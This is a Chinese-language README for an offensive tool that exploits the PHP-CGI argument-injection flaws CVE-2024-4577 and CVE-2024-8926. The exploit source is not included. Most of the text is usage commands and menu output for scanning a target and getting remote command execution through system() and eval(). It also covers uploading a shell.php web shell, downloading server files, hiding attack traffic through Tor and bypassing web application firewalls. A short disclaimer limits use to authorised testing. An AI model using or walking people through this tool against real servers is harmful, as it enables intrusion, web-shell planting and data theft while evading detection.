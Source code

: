 # PHP-CGI Injector

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> 針對 **PHP-CGI 參數注入漏洞** 的自動化測試工具，支持 **CVE-2024-4577** 和 **CVE-2024-8926**，可進行 **命令執行、文件上傳、下載** 等操作。

---

## **📌 介紹**
本工具可用於測試 **PHP-CGI 環境中的參數注入漏洞**，並提供：
- ✅ **超酷的banner動畫**
- ✅ **超酷的終端介面**
- ✅ **自動掃描漏洞**
- ✅ **Tor隱藏攻擊流量**
- ✅ **多種攻擊模式**
- ✅ **預設多種Payload與自訂Payload**
- ✅ **多種Bypass WAF模組**
- ✅ **支持交互式shell**
- ✅ **支持任意php代碼執行**
- ✅ **支持上傳與下載檔案**
- ✅ **可自動記錄命令執行歷史 (`--log`)**
- ✅ **自動轉換輸出編碼**
- ❌ 不支援泡咖啡，但支援烘烤 WAF。
- ❌ 不支援幫你打報告、追女友或考上研究所。
- ❌ 不支援社交工程，請自行面對人類。

---

## **📜 免責聲明**
**本工具僅限於合法測試與學術用途，請勿用於未經授權的系統！**
> **⚠️ 非法使用將承擔法律責任！**

本工具僅供：
- 🔹 **企業紅隊滲透測試**
- 🔹 **CTF 安全研究**
- 🔹 **個人安全學習**
- 🔹 **其他取得合法授權之安全測試**

---

## **📥 安裝依賴**
本工具依賴以下 Python 套件，請先安裝：
```bash
pip install -r requirements.txt
```
或者手動安裝：
```bash
pip install requests requests-tor chardet urllib3 rich
```

---

## **🛠️ 使用方法**
### **📌 基本用法**
```bash
python exploit.py [-h] -u URL [--timeout TIMEOUT] [--log] [--verbose] [--payload [PAYLOAD]] [--tor] [--bypass]
```
範例：
```bash
python exploit.py -u http://example.com --timeout=30 --log --payload --tor --verbose
```

### **📌 參數選項**
| 參數 | 說明 | 範例 |
|------|------|------|
| `-u` 、 `--url` | 指定目標網站 | `-u http://example.com` |
| `--timeout sec` | 設定請求超時 (`1-120` 秒)，`0` 代表無限等待 | `--timeout 30` 、  `--timeout 0` |
| `--log` | 啟用 Shell 模式的自動記錄 | `--log` |
| `--payload`  | 切換或自訂payload組合 | `--payload` 、 `--payload 2` 、 `--payload C` |
| `--tor`  | 使用tor發送請求 | `--tor` |
| `--verbose` | 列出更詳細的測試訊息 | `--verbose` |
| `--bypass` | 進入bypass WAF測試模式 | `--bypass` |
---

## **📌 操作模式**
當腳本找到漏洞後，會顯示選單：
```
[+] 找到漏洞入口 : /php-cgi/php-cgi.exe (漏洞: CVE-2024-4577)

[*] 當前目標: http://example.com/ (漏洞: CVE-2024-4577)
模式選擇:
1) Shell模式 (使用system()執行命令)
2) PHP自訂義模式 (使用eval()執行任意代碼)
3) 上傳檔案
4) 下載檔案
5) 切換攻擊目標
6) 離開程式
```

---

## **📌 模式詳解**
### **1️⃣ Shell 模式**
執行 **系統命令**：
```
shell> whoami
```
📂 **儲存輸出**
```
shell> whoami --save
```
```
shell> whoami --save C:\output\whoami.txt
```

---

### **2️⃣ PHP 自訂模式**
執行 **自訂 PHP 代碼**：
```
phpinfo();
EOF
```
📂 **儲存輸出**
```
phpinfo();
EOF --save
```
```
phpinfo();
EOF --save C:\output\info.html
```

---

### **3️⃣ 上傳檔案**
```
本地檔案路徑：C:\test\shell.php
目標完整路徑：
[*] 已自動設定上傳路徑為: C:/xampp/htdocs/shell.php
```
📂 **手動指定路徑**
```
目標完整路徑：C:\xampp\php\shell.php
```

---

### **4️⃣ 下載檔案**
```
遠端檔案路徑：C:\xampp\htdocs\index.php
```
📂 **檔案下載後儲存於 `download/`，若有重複，會自動添加編號**
```
[*] 檔案下載完成，儲存在 download/index.php
```

---

### **5️⃣ 切換攻擊目標**
```
輸入新目標URL: http://newtarget.com
```
🔹 **將重新測試漏洞**

---

### **6️⃣ 離開程式**
```
[*] 程式結束
```

---

## 更新日誌
| 版本 | 更新內容 |
|------|------|
| 1.1.2 | 修復命令與任意代碼執行時，編碼問題導致的錯誤。 |
| | 修復執行結果單次儲存默認本地檔案命名的邏輯問題。 |
| 1.2.0 | 修復tor路由連線問題。 |
| | 新增tor自動檢測與連線、Payload自選功能。 |
| 1.3.0 | 新增詳細輸出，用於更好的判斷與調適。 |
| | 新增自訂payload功能。 |
| | 修補Linux上tor連線問題。 |
| 1.3.1 | 修補未找到漏洞時，payload切換的bug |
| 1.4.0 | 新增bypass模式 |
| | 優化exploit.py |
| | 彩蛋動畫 |
| 1.4.1 | 修復不同選單切換時可能導致的錯誤 |
| | 新增超酷終端介面 |
---

